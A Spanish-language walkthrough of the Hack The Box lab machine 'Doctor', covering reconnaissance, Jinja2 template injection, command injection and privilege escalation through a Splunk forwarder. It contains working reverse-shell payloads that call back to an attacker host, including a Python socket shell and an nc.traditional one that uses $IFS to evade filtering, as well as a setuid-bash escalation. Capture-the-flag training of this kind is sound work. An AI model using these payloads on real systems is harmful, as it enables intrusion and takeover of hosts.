







## Información Básica

### Técnicas vistas

- Server Side Template Injection (SSTI)
- Exploiting the SSTI by calling Popen without guessing the offset (1st way) [RCE]
- Command Injection (2nd way) [RCE]
- Abusing adm group - Finding credentials in request logs
- Splunk Exploitation (Universal Forwarder Missconfiguration) - SplunkWhisperer2 [Privilege Escalation]

### Preparación

- eWPT
- eWPTXv2
- OSWE

***

## Reconocimiento

### Nmap

Iniciaremos el escaneo de **Nmap** con la siguiente línea de comandos:

```bash wrap=false
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.209 -oG nmap/allPorts 
```

| Parámetro           | Descripción                                                                                  |
| ------------------- | -------------------------------------------------------------------------------------------- |
| `-p-`               | Escanea **todos los puertos** (1-65535).                                                     |
| `--open`            | Muestra **solo puertos abiertos**.                                                           |
| `-sS`               | Escaneo **SYN** (rápido y sigiloso).                                                         |
| `--min-rate 5000`   | Envía al menos **5000 paquetes por segundo** para acelerar el escaneo.                       |
| `-vvv`              | Máxima **verbosidad**, muestra más detalles en tiempo real.                                  |
| `-n`                | Evita resolución DNS.                                                                        |
| `-Pn`               | Asume que el host está activo, **sin hacer ping** previo.                                    |
| `10.10.10.209`      | Dirección IP objetivo.                                                                       |
| `-oG nmap/allPorts` | Guarda la salida en formato **grepable** para procesar con herramientas como `grep` o `awk`. |

```txt wrap=false
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
8089/tcp open  unknown syn-ack ttl 63
```

Ahora con la función **extractPorts**, extraeremos los puertos abiertos y nos los copiaremos al clipboard para hacer un escaneo más profundo:

```bash title="Función de S4vitar"
extractPorts () {
	ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{print $1}' FS='/' | xargs | tr ' ' ',')" 
	ip_address="$(cat $1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u | head -n 1)" 
	echo -e "\n[*] Extracting information...\n" > extractPorts.tmp
	echo -e "\t[*] IP Address: $ip_address" >> extractPorts.tmp
	echo -e "\t[*] Open ports: $ports\n" >> extractPorts.tmp
	echo $ports | tr -d '\n' | xclip -sel clip
	echo -e "[*] Ports copied to clipboard\n" >> extractPorts.tmp
	/bin/batcat --paging=never extractPorts.tmp
	rm extractPorts.tmp
}
```

```bash wrap=false
nmap -sVC -p22,80,8089 10.10.10.209 -oN nmap/targeted
```

| Parámetro           | Descripción                                                                          |
| ------------------- | ------------------------------------------------------------------------------------ |
| `-sV`               | Detecta la **versión** de los servicios que están corriendo en los puertos abiertos. |
| `-C`                | Ejecuta **scripts NSE de detección de versiones y configuración**.                   |
| `-p`                | Escanea únicamente los puertos seleccionados.                                        |
| `10.10.10.209`      | Dirección IP objetivo.                                                               |
| `-oN nmap/targeted` | Guarda la salida en **formato normal** en el archivo indicado.                       |

```txt wrap=false
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)
|_  256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
| http-title: Doctor Secure Messaging - Login
|_Requested resource was http://doctors.htb/login?next=%2F
| http-server-header: 
|   Apache/2.4.41 (Ubuntu)
|_  Werkzeug/1.0.1 Python/3.8.2
8089/tcp open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Whatweb

Usamos el comando **whatweb** para ver más información sobre los dos puertos `http`:

```bash wrap=false
❯ whatweb http://10.10.10.209
http://10.10.10.209 [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], Email[info@doctors.htb], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.209], JQuery[3.3.1], Script, Title[Doctor]
❯ whatweb https://10.10.10.209:8089
https://10.10.10.209:8089 [200 OK] Country[RESERVED][ZZ], HTTPServer[Splunkd], IP[10.10.10.209], Title[splunkd], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN]
❯ whatweb http://doctors.htb
http://doctors.htb [302 Found] Cookies[session], Country[RESERVED][ZZ], HTTPServer[Werkzeug/1.0.1 Python/3.8.2], HttpOnly[session], IP[10.10.10.209], Python[3.8.2], RedirectLocation[http://doctors.htb/login?next=%2F], Title[Redirecting...], Werkzeug[1.0.1]
http://doctors.htb/login?next=%2F [200 OK] Bootstrap[4.0.0], Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/1.0.1 Python/3.8.2], IP[10.10.10.209], JQuery, PasswordField[password], Python[3.8.2], Script, Title[Doctor Secure Messaging - Login], Werkzeug[1.0.1]
```

Como podemos ver si usamos el dominio `doctors.htb` nos redirige a otra página, vamos a ver el contenido de cada una:

#### 10.10.10.209:80


#### doctors.htb


#### 10.10.10.209:8089



No parece haber nada interesante por el momento excepto en el dominio `doctors.htb`, en el que podemos crear una cuenta y loguearnos:




### Wfuzz

Como podemos ver podemos crear incluso un post, antes que nada vamos a aplicar un poco de fuzzing para ver si vemos algo interesante:

```bash wrap=false
❯ wfuzz -c -L --hc=404 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://doctors.htb/FUZZ
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://doctors.htb/FUZZ
Total requests: 220545

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                
=====================================================================

000000039:   200        94 L     228 W      4204 Ch     "login"                                                                                                                
000000024:   200        94 L     228 W      4204 Ch     "home"                                                                                                                 
000000049:   200        5 L      8 W        101 Ch      "archive"                                                                                                              
000000051:   200        100 L    238 W      4493 Ch     "register"    
```



La ruta `/archive` parece no contener nada, vamos a probar a crear un post:





## Explotación

En esta máquina tenemos dos maneras de conesguir acceso, Una llamando `popen` para entablar directamente una reverse shell y la ota inyectando comandos.

### Calling Popen without guessing the offset (1st way)

Vemos que el contenido se refleja en ambas rutas, vamos a probar un `SSTI`:





Vemos que en la ruta `/archive` si que se refleja esta vulnerabilidad. Buscando en [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2---remote-command-execution), encontramos un payload para conseguir una reverse shell:

```bash wrap=false
{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.8\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}
```

```bash
web@doctor:/home/shaun$ whoami
web
web@doctor:/home/shaun$ cat user.txt 
cat: user.txt: Permission denied
```

### Command Injection (2nd way)

Si nos ponemos a la escuha por el puerto `80`, y lo ponemos como campo:

```bash wrap=false
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.209 - - [06/Sep/2025 18:07:42] code 404, message File not found
10.10.10.209 - - [06/Sep/2025 18:07:42] "GET /test HTTP/1.1" 404 -
^C
Keyboard interrupt received, exiting.
❯ nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.209] 55992
GET /test HTTP/1.1
Host: 10.10.14.8
User-Agent: curl/7.68.0
Accept: */*
```

Vemos que hace un `curl` a la ruta que especifiquemos, vamos a probar a inyectar comandos:

```
http://10.10.14.8/$(whoami)
```

```bash wrap=false
❯ nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.209] 56004
GET /web HTTP/1.1
Host: 10.10.14.8
User-Agent: curl/7.68.0
Accept: */*
```

Sabiendo esto usaremos el siguiente `payload`:

```txt wrap=false
http://10.10.14.29/$(nc.traditional$IFS-e$IFS'/bin/bash'$IFS'10.10.14.8'$IFS'443')
```

Usamos `nc.traditional` porque `nc` no está instalado en la máquina víctima, y usamos `$IFS` que es una variable de entorno que vale:

```
$ echo "$IFS" | od -c
0000000  \t  \n
```

Es decir, un **tab** y un **salto de línea**, para poder poner espacios.

## Escalada de privilegios

### Usuario shaun

Primero intentaremos convertirnos en `shaun` para poder ver la **user flag**

```bash wrap=false
web@doctor:/home/shaun$ id
uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
```

Como estamos en el grupo `adm` podemos ver los **logs** del sistema, vamos a ver si hay algo interesante:

```bash wrap=false
web@doctor:/home/shaun$ cd /var/log
web@doctor:/var/log$ ls
alternatives.log    dmesg.3.gz         syslog.6.gz
alternatives.log.1  dmesg.4.gz         syslog.7.gz
apache2             dpkg.log           ufw.log
apt                 dpkg.log.1         ufw.log.1
auth.log            dpkg.log.2.gz      ufw.log.2.gz
auth.log.1          fontconfig.log     ufw.log.3.gz
auth.log.2.gz       gpu-manager.log    unattended-upgrades
auth.log.3.gz       hp                 vmware-network.1.log
auth.log.4.gz       installer          vmware-network.2.log
boot.log            journal            vmware-network.3.log
boot.log.1          kern.log           vmware-network.4.log
boot.log.2          kern.log.1         vmware-network.5.log
boot.log.3          kern.log.2.gz      vmware-network.6.log
boot.log.4          kern.log.3.gz      vmware-network.7.log
boot.log.5          kern.log.4.gz      vmware-network.8.log
boot.log.6          lastlog            vmware-network.9.log
boot.log.7          openvpn            vmware-network.log
btmp                private            vmware-vmsvc-root.1.log
btmp.1              speech-dispatcher  vmware-vmsvc-root.2.log
cups                syslog             vmware-vmsvc-root.3.log
dist-upgrade        syslog.1           vmware-vmsvc-root.log
dmesg               syslog.2.gz        vmware-vmtoolsd-root.log
dmesg.0             syslog.3.gz        wtmp
dmesg.1.gz          syslog.4.gz        Xorg.0.log
dmesg.2.gz          syslog.5.gz        Xorg.0.log.old
web@doctor:/var/log$ grep -r -i 'password'
grep: boot.log.2: Permission denied
auth.log:Sep  6 13:53:08 doctor VGAuth[674]: vmtoolsd: Username and password successfully validated for 'root'.
auth.log:Sep  6 13:53:12 doctor VGAuth[674]: message repeated 28 times: [ vmtoolsd: Username and password successfully validated for 'root'.]
auth.log:Sep  6 17:37:01 doctor sudo: pam_unix(sudo:auth): auth could not identify password for [web]
grep: boot.log.4: Permission denied
grep: speech-dispatcher: Permission denied
grep: vmware-network.4.log: Permission denied
auth.log.1:Sep 22 13:01:23 doctor sshd[1704]: Failed password for invalid user shaun from 10.10.14.2 port 40896 ssh2
auth.log.1:Sep 22 13:01:28 doctor sshd[1704]: Failed password for invalid user shaun from 10.10.14.2 port 40896 ssh2
grep: vmware-network.9.log: Permission denied
syslog.1:Sep 28 12:39:50 doctor systemd[1]: Condition check resulted in Dispatch Password Requests to Console Directory Watch being skipped.
syslog.1:Sep 28 12:39:50 doctor systemd[1]: Started Forward Password Requests to Plymouth Directory Watch.
syslog.1:Sep 28 12:39:50 doctor kernel: [    4.498424] systemd[1]: Started Forward Password Requests to Wall Directory Watch.
syslog.1:Sep 28 13:08:45 doctor kernel: [    4.689181] systemd[1]: Started Forward Password Requests to Wall Directory Watch.
syslog.1:Sep 28 13:08:46 doctor systemd[1]: Condition check resulted in Dispatch Password Requests to Console Directory Watch being skipped.
syslog.1:Sep 28 13:08:46 doctor systemd[1]: Started Forward Password Requests to Plymouth Directory Watch.
syslog.1:Sep 28 13:18:58 doctor systemd[1]: Condition check resulted in Dispatch Password Requests to Console Directory Watch being skipped.
syslog.1:Sep 28 13:18:58 doctor systemd[1]: Started Forward Password Requests to Plymouth Directory Watch.
syslog.1:Sep 28 13:18:58 doctor kernel: [    4.853998] systemd[1]: Started Forward Password Requests to Wall Directory Watch.
syslog.1:Sep 28 13:22:49 doctor kernel: [    5.138817] systemd[1]: Started Forward Password Requests to Wall Directory Watch.
syslog.1:Sep 28 13:22:49 doctor kernel: [    5.531226] systemd[1]: Condition check resulted in Dispatch Password Requests to Console Directory Watch being skipped.
syslog.1:Sep 28 13:22:49 doctor kernel: [    5.531341] systemd[1]: Started Forward Password Requests to Plymouth Directory Watch.
syslog.1:Sep 28 13:38:11 doctor kernel: [    5.238717] systemd[1]: Started Forward Password Requests to Wall Directory Watch.
syslog.1:Sep 28 13:38:11 doctor kernel: [    5.613748] systemd[1]: Condition check resulted in Dispatch Password Requests to Console Directory Watch being skipped.
syslog.1:Sep 28 13:38:11 doctor kernel: [    5.613869] systemd[1]: Started Forward Password Requests to Plymouth Directory Watch.
syslog.1:Sep 28 13:41:49 doctor systemd[1]: Condition check resulted in Dispatch Password Requests to Console Directory Watch being skipped.
syslog.1:Sep 28 13:41:49 doctor systemd[1]: Started Forward Password Requests to Plymouth Directory Watch.
syslog.1:Sep 28 13:41:49 doctor kernel: [    4.871936] systemd[1]: Started Forward Password Requests to Wall Directory Watch.
syslog.1:Sep 28 13:47:46 doctor systemd[1]: Condition check resulted in Dispatch Password Requests to Console Directory Watch being skipped.
syslog.1:Sep 28 13:47:46 doctor systemd[1]: Started Forward Password Requests to Plymouth Directory Watch.
syslog.1:Sep 28 13:47:46 doctor kernel: [    4.834021] systemd[1]: Started Forward Password Requests to Wall Directory Watch.
syslog.1:Sep 28 14:59:58 doctor systemd[1]: Condition check resulted in Dispatch Password Requests to Console Directory Watch being skipped.
syslog.1:Sep 28 14:59:58 doctor systemd[1]: Started Forward Password Requests to Plymouth Directory Watch.
syslog.1:Sep 28 14:59:58 doctor kernel: [    5.666833] systemd[1]: Started Forward Password Requests to Wall Directory Watch.
syslog.1:Sep  6 13:51:14 doctor systemd[1]: Condition check resulted in Dispatch Password Requests to Console Directory Watch being skipped.
syslog.1:Sep  6 13:51:14 doctor systemd[1]: Started Forward Password Requests to Plymouth Directory Watch.
syslog.1:Sep  6 13:51:14 doctor kernel: [    2.875758] systemd[1]: Started Forward Password Requests to Wall Directory Watch.
grep: vmware-network.1.log: Permission denied
apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
grep: vmware-network.5.log: Permission denied
grep: vmware-network.6.log: Permission denied
grep: vmware-vmsvc-root.1.log: Permission denied
grep: vmware-network.3.log: Permission denied
Binary file journal/62307f5876ce4bdeb1a4be33bebfb978/system.journal matches
Binary file journal/62307f5876ce4bdeb1a4be33bebfb978/user-1001@8612c285930942bc8295a5e5404c6fb7-000000000000d0e1-0005ae7b997ca2d8.journal matches
Binary file journal/62307f5876ce4bdeb1a4be33bebfb978/system@68325fc054024f8aac6fcf2ce991a876-000000000000cf5a-0005ae7b98c1acfe.journal matches
Binary file journal/62307f5876ce4bdeb1a4be33bebfb978/system@68325fc054024f8aac6fcf2ce991a876-0000000000003ac7-0005ab70dc697773.journal matches
Binary file journal/62307f5876ce4bdeb1a4be33bebfb978/user-1002@84e1503b20fd49eca2b6ca0b7d6fdeeb-00000000000176d6-0005af5694057aa6.journal matches
Binary file journal/62307f5876ce4bdeb1a4be33bebfb978/user-1001.journal matches
Binary file journal/62307f5876ce4bdeb1a4be33bebfb978/system@68325fc054024f8aac6fcf2ce991a876-0000000000033c8f-0005afad8045c159.journal matches
dmesg:[    2.875758] systemd[1]: Started Forward Password Requests to Wall Directory Watch.
grep: boot.log: Permission denied
grep: vmware-vmtoolsd-root.log: Permission denied
dmesg.0:[    5.666833] systemd[1]: Started Forward Password Requests to Wall Directory Watch.
grep: btmp: Permission denied
grep: vmware-network.7.log: Permission denied
grep: btmp.1: Permission denied
grep: boot.log.3: Permission denied
grep: vmware-vmsvc-root.3.log: Permission denied
grep: vmware-network.2.log: Permission denied
grep: boot.log.7: Permission denied
grep: boot.log.6: Permission denied
grep: boot.log.1: Permission denied
grep: vmware-vmsvc-root.log: Permission denied
grep: vmware-network.8.log: Permission denied
grep: private: Permission denied
grep: vmware-vmsvc-root.2.log: Permission denied
grep: boot.log.5: Permission denied
grep: vmware-network.log: Permission denied
```

Si probamos las credenciales que encontramos `shaun:Guitar123`:

```bash
web@doctor:/var/log$ su shaun
Password: 
shaun@doctor:/var/log$ whoami
shaun
```

### Usuario root

Recordando el previo reconocimiento que hemos hecho, para el servicio que corre en el puerto `8089` existe un exploit para escalar privilegios. Este exploit requiere credenciales, pero probando las anteriores conseguimos acceso. Dejo aquí el [enlace](https://github.com/cnotin/SplunkWhisperer2/blob/master/PySplunkWhisperer2/PySplunkWhisperer2_remote.py) al recurso:

```bash title="Usamos el script como nos indica" wrap=false
❯ python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --port 8089 --lhost 10.10.14.8 --username shaun --password Guitar123 --payload "chmod u+s /bin/bash"
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpzq79arxe.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.14.8:8181/
10.10.10.209 - - [06/Sep/2025 22:54:44] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup

[.] Removing app...
[+] App removed
[+] Stopped HTTP server
Bye!
```

De esta manera conseguiremos que `/bin/bash` pueda ser ejecutada como **root** por mi sin contraseña de la siguiente manera:

```bash wrap=false
shaun@doctor:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
shaun@doctor:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
shaun@doctor:~$ bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt 
2fc2f193d4b28dfeec...
```

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/278)

---